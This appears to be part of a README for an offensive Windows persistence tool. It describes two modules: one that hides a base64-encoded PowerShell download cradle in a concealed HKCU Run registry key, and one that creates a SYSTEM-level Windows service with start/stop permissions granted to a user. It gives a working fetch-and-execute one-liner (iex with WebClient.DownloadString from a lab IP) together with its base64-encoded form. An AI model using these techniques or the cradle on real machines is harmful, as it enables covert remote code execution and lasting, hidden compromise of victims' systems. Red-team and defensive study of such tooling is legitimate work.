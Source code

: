 ## Modules

### PowerShell HKCU via PSReflect

Accepts a basic base64'd (to avoid escaping pain) download cradle.  Writes it to HKCU\Software\Microsoft\Windows\Run\\`0pwned using a modified version of [PSReflect](https://github.com/mattifestation/PSReflect) and [RegHide](https://gist.github.com/brianreitz/feb4e14bd45dd2e4394c225b17df5741#file-psreflect-reghide-ps1).

![HKCU (PSH)](images/hkcu_psh.png)

Basic Example:

`iex ([System.Net.WebClient]::New().DownloadString('http://192.168.56.100/a'))`
`aQBlAHgAIAAoAFsAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0AF0AOgA6AE4AZQB3ACgAKQAuAEQAbwB3AG4AbABvAGEAZABTAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4ANQA2AC4AMQAwADAALwBhACcAKQApAA==`

### Windows Service Persistence

Creates a Windows Service (running as SYSTEM) with the specified options and uses `sc sdset` to assign start/stop permissions to the user SID. Requires you to manually upload a payload.
![Service](images/service.png)